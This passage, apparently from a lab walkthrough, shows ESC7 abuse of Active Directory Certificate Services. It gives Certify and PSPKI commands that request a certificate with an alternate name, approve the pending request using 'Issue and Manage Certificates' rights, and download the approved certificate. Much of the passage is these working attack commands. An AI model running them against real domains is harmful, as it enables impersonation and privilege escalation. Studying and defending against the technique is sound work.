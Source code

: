 
If a user has the ``Issue and Manage Certificates`` rights, he is able to approve pending requests, which allows us to "bypass" the manager approval function.  

#### Certify

- Request a certificate that requires manager approval  

```
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"ESC7" /altname:"god" /install
```  

<img src="/images/2022-09-16/esc7_exploit4.png"> 

The request is pending, and we got an ID.  

- Approve the pending request with PSPKI   

```
Get-CertificationAuthority -ComputerName dc2016-2.mcafeelab.local | Get-PendingRequest -RequestID 731 | Approve-CertificateRequest
```  

<img src="/images/2022-09-16/esc7_exploit5.png">  

- Fetch the now approved cert  

```
.\Certify.exe download /ca:DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1 /id:731
```

<img src="/images/2022-09-16/esc7_exploit6.png">  
